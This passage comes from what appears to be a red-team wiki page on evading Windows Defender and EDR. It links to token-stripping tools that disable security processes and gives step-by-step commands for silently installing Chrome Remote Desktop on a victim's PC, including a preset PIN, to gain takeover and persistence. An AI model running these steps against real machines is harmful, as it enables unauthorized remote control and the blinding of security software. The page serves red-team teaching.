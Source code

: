 To prevent this Windows could **prevent external processes** from getting handles over the tokens of security processes.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Using Trusted Software

### Chrome Remote Desktop

As described in [**this blog post**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide), it's easy to just deploy the Chrome Remote Desktop in a victims PC and then use it to takeover it and maintain persistence:
1. Download from https://remotedesktop.google.com/, click on "Set up via SSH", and then click on the MSI file for Windows to download the MSI file.
2. Run the installer silently in the victim (admin required): `msiexec /i chromeremotedesktophost.msi /qn`
3. Go back to the Chrome Remote Desktop page and click next. The wizard will then ask you to authorize; click the Authorize button to continue.
4. Execute the given parameter with some adjustments: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (Note the pin param which allows to set the pin withuot using the GUI).
 

## Advanced Evasion

Evasion is a very complicated topic, sometimes you have to take into account many different sources of telemetry in just one system, so it's pretty much impossible to stay completely undetected in mature environments.

Every environment you go against will have their own strengths and weaknesses.

I highly encourage you go watch this talk from [@ATTL4S](https://twitter.com/DaniLJ94), to get a foothold into more Advanced Evasion techniques.


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

his is also another great talk from [@mariuszbit](https://twitter.com/mariuszbit) about Evasion in Depth.


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Old Techniques**

### **Check which parts Defender finds as malicious**
